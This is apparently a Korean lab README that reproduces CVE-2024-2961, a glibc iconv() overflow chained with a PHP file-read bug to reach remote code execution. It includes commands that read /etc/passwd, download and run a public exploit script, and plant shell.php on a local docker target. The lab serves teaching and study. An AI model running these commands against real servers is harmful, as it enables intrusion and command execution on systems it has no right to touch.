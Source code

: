 # 📌 CVE-2024-2961: PHP 파일 읽기를 통한 원격 코드 실행 취약점 (GNU C Library Iconv) 🛡️
**CVE-2024-2961**은 **PHP 애플리케이션**에서 **원격 코드 실행**(RCE)을 가능하게 하는 취약점이다.  
이 취약점은 **GNU C 라이브러리**(glibc)의 **iconv() 함수**에서 발생하며, 그로 인해 **버퍼 오버플로우**와 **원격 코드 실행**(RCE) 공격이 가능하다.  
  
<br>

## 📚 Table of Contents
- [취약점 개요 (Vulnerability Overview) 🛡️](#-취약점-개요-vulnerability-overview)
- [취약점 영향 (Impact) ⚠️](#-취약점-영향-impact)
- [취약한 환경 설정 (Vulnerable Environment) ⚙️](#-취약한-환경-설정-vulnerable-environment)
- [취약점 악용 (Exploit) 👾](#-취약점-악용-exploit)
- [PoC 코드 개요 (PoC Summary) 💻](#-poc-코드-개요-poc-summary)
- [취약점 악용 흐름도 (Exploit Flow Diagram) ⏳](#-취약점-악용-흐름도-exploit-flow-diagram)

<br>

## 🛡️ 취약점 개요 (Vulnearability Overview)
**GNU C 라이브러리**(glibc)는 호환성, 이식성, 높은 성능을 자랑하는 ISO C 라이브러리이다.  
**CVE-2024-2961**은 GNU C 라이브러리 **2.39 이하** 버전에서 발생하는 취약점으로, `iconv()` 함수에서 발생한다.  
특히, 문자열을 **ISO-2022-CN-EXT** 문자 집합으로 변환할 때, 출력 버퍼가 최대 **4바이트까지 오버플로우**되어 애플리케이션 충돌을 일으키거나 변수를 덮어쓸 수 있다.  
이 취약점은 **PHP 애플리케이션의 파일 읽기 취약점**과 결합되면서, 공격자가 **원격 코드 실행**(RCE) 공격을 수행할 수 있게 만든다.  

**참고문헌:**
- https://www.ambionics.io/blog/iconv-cve-2024-2961-p1

<br>

## ⚠️ 취약점 영향 (Impact)
- **버퍼 오버플로우**: 오버플로우로 인해 애플리케이션 충돌이나 메모리 손상이 발생할 수 있다.
- **원격 코드 실행**: 이 취약점을 악용하면 공격자가 원격에서 임의의 코드를 실행할 수 있다.

<br>

## ⚙️ 취약한 환경 설정 (Vulnerable Environment)
다음 명령어를 실행하여 **PHP 8.3.4** 서버와 **iconv 2.36** 버전이 포함된 환경을 시작한다:
   ```bash
   docker compose up -d
   ```
   서버가 시작되면, 브라우저에서 http://localhost:8080/index.php?file=/etc/passwd를 통해 /etc/passwd 파일을 읽을 수 있다.  

<br>

## 👾 취약점 악용 (Exploit)
1. 취약점을 악용하려면, Linux 기반 시스템과 **Python 3.10** 이상이 필요하다.
2. 필요한 종속성을 설치한다:
   ```bash
   pip install pwntools
   pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
   ```
3. PoC를 다운로드하고 실행한다:

   ```bash
   wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
   python cnext-exploit.py http://localhost:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```

   ❗주의: 만약 `localhost`가 작동하지 않는다면, 대신 자신의 IP 주소를 사용해야 한다.
   
   💡참고: 자신의 IP 주소는 `ipconfig` 명령어를 사용하여 확인할 수 있다.

     - Linux 환경에서는 `eth0` 인터페이스에서 IP를 확인할 수 있다.
       
   예를 들어, 자신의 IP 주소가 `192.168.1.100`이라면 아래와 같이 입력한다:
   ```bash
   python cnext-exploit.py http://192.168.1.100:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```
   `your-ip`는 `ipconfig` 명령어를 통해 확인한 실제 IP 주소로 바꿔야 한다.

   ![image](https://github.com/user-attachments/assets/83b19dd0-48bd-42d0-a45d-891851d44651)
    이처럼 shell.php가 성공적으로 작성된다.
   
4. 브라우저에서 `shell.php`를 확인한다.
   ```bash
   http://localhost:8080/shell.php
   ```
   ![image](https://github.com/user-attachments/assets/96357e65-63ff-4313-ba5d-c553cd743d37)
   위와 같이 `shell.php`가 잘 실행된다.

<br>

## 💻 PoC 코드 개요(PoC Summary)
`cnext-exploit.py`는 대상 서버의 **파일 읽기 취약점**을 이용하여, **glibc iconv 버그**를 트리거하고 **원격 코드 실행(RCE)**을 달성하는 익스플로잇 스크립트이다.

- 서버가 지원하는 PHP 스트림(wrapper) 기능 (`php://filter', 'zlib.inflate' 등)을 이용하여 서버 메모리를 조작한다.
- `/proc/self/maps` 파일을 통해 PHP 프로세스의 메모리 레이아웃(libc, 힙 주소 등)을 수집한다.
- `iconv()` 함수의 버퍼 오버플로우 취약점을 이용하여 메모리 구조를 덮어쓰고, 시스템 명령어 실행이 가능하도록 한다.
- 최종적으로 서버에 원하는 PHP 파일(`shell.php`)을 생성하여, 원격에서 명령어를 실행할 수 있다.

<br>

## ⏳ 취약점 악용 흐름도 (Exploit Flow Diagram)
```text
1. 환경 구성(PHP 8.34 + iconv 2.36)
2. /etc/passwd 파일 읽기 확인
3. PoC 스크립트 실행 (cnext-exploit.py)
4. shell.php 파일 생성
5. shell.php 접속 및 명령어 실행
6. 원격 코드 실행(RCE) 성공
```

